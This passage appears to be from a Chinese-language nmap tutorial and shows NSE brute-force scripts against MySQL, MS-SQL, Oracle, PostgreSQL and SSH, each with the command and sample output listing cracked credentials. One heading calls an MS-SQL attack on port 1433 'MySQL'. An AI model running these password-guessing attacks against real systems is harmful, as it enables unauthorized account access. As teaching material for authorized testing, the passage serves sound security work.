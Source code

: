 ```bash
nmap --script=mysql-brute <target>
3306/tcp open  mysql
| mysql-brute:
|   Accounts
|     root:root - Valid credentials
```

![一款强大的安全扫描器nmap：不老的神器](https://image.3001.net/2017/07/5bb8e360090ff1da26b303ecf7d5e69e2.png)

可以看出已经暴力成功破解了MySQL,在368秒内进行45061次猜测平均TPS为146.5。

对MySQL进行暴力破解

```bash
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt <host>
| ms-sql-brute:
|   [192.168.100.128\TEST]
|     No credentials found
|     Warnings:
|       sa: AccountLockedOut
|   [192.168.100.128\PROD]
|     Credentials found:
|       webshop_reader:secret => Login Success
|       testuser:secret1234 => PasswordMustChange
|_      lordvader:secret1234 => Login Success
```

#### 对Oracle数据库进行暴破解

```
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL <host>
PORT     STATE  SERVICE REASON
1521/tcp open  oracle  syn-ack
| oracle-brute:
|   Accounts
|     system:powell => Account locked
|     haxxor:haxxor => Valid credentials
|   Statistics
|_    Perfomed 157 guesses in 8 seconds, average tps: 19
```

#### 对pgSQL的暴力破解

```
nmap -p 5432 --script pgsql-brute <host>
5432/tcp open  pgsql
| pgsql-brute:
|   root:<empty> => Valid credentials
|_  test:test => Valid credentials
```

#### 对SSH进行暴力破解

```bash
nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst --script-args ssh-brute.timeout=4s <target>
22/ssh open  ssh
| ssh-brute:
|  Accounts
|    username:password
|  Statistics
|_   Performed 32 guesses in 25 seconds.
```
